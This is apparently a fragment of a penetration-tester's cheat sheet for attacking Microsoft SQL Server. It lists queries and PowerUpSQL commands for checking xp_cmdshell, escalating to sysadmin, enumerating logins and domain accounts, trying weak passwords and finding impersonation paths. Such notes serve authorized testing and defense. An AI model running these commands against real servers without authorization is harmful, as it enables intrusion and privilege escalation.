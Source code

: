 ````

#### Check for xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

### Privilege Escalation to sysadmin
#### Audit for issues
```
Invoke-SQLAudit -Verbose -Instance <SQL INSTANCE>
```
 
#### Try to excalate privileges
```
Invoke-SQLEscalatePriv
```
 
### SQL Server enumerate login
- Try weak passwords against the enumerated users!
#### Blind SQL Server login enum
```
SELECT name FROM sys.syslogins;
SELECT name FROM sys.server_principals;
 
SELECT SUSER_NAME(1)
SELECT SUSER_NAME(2)
SELECT SUSER_NAME(3)

Get-SQLFuzzServerLogin -Instance <COMPUTERNAME>\<INSTANCENAME>
```
 
#### Blind SQL Domain Account Enum.
```
-- Get the domain where SQL Server is.--
SELECT DEFAULT_DOMAIN() as mydomain
-- Full RID of Domain Admins group.--
SELECT SUSER_SID('<Identified_Domain>\Domain Admins')
-- grab the first 48 bytes of the full RID to get domain’s SID. Create a new RID (will be associated with a domain object) by appending a hex number value to the previous SID. --
SELECT SUSER_NAME(RID) –> Get the domain object name associated to the RID.

Get-SQLFuzzDomainAccount -Instance <COMPUTERNAME>\<INSTANCENAME>
```

#### Check for weak passwords or default credentials
- Enumerate all SQL Logins as least privilege user and test username as password.
```
Get-SQLInstanceDomain | Invoke-SQLAuditWeakLoginPw -Verbose
```
 
### Impersonation attack
#### Check if impersonation is possible PowerUpSQL
```
Invoke-SQLAuditPrivImpersonateLogin -Instance <SQL INSTANCE> -Verbose -Debug
```

#### Check if impersonation is possible
```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

````